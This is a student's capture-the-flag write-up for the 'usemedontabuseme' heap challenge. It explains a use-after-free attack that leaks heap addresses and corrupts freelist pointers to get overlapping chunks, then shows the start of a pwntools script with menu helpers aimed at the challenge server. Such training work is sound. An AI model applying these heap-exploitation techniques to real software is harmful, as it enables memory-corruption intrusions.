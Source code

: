 Ran out of time this week, so instead of "writeups" the explanation of the exploit code is within the code's comments

usemedontabuseme
===========================
Flag: FLAG{}

General overview of problems faced
-------------------------------------
The main issue here was just understanding how the heap worked. Given this is my first heap exploit I made zero progress until reading and researching enough. Once I understood the implication of UAF better and how glibc handles free/malloc in terms of chunk metadata, it became clear that I could leak heap addresses and in doing so can control the heap by changing the fwd pointers. By changing the fwd pointer to point within an existing chunk I could have overlapping chunks, allowing me to change previously unaccessible data that got reflected in the original chunk (due to the UAF vuln).

Script/Command used (Writeup)
------------------
```
from pwn import *

PROG_NAME = "./usemedontabuseme"
REMOTE_IP = "plsdonthaq.me"
REMOTE_PORT = 7000

if args.REMOTE:
    p = remote(REMOTE_IP, REMOTE_PORT)
    elf = ELF(PROG_NAME)
else:
    p = process(PROG_NAME)
    elf = p.elf

def create_custom(num, data):
	p.recvuntil("Choice: ")
	p.sendline("A")
	p.sendline(str(num))
	p.sendline(data)

def create(num):
	p.recvuntil("Choice: ")
	p.sendline("A")
	p.sendline(str(num))
	p.sendline(str(num)*8)

def view(num):
	p.recvuntil("Choice: ")
	p.sendline("D")
	p.sendline(str(num))
	p.recvuntil("Name: ")
	return p.recvline().rstrip()

def free(num):
	p.recvuntil("Choice: ")
	p.sendline("B")
	p.sendline(str(num))

def rename(num, to_write):
	p.recvuntil("Choice: ")
	p.sendline("C")
	p.sendline(str(num))
	p.sendline(to_write)

def hakk(num):
	p.recvuntil("Choice: ")
	p.sendline("H")
```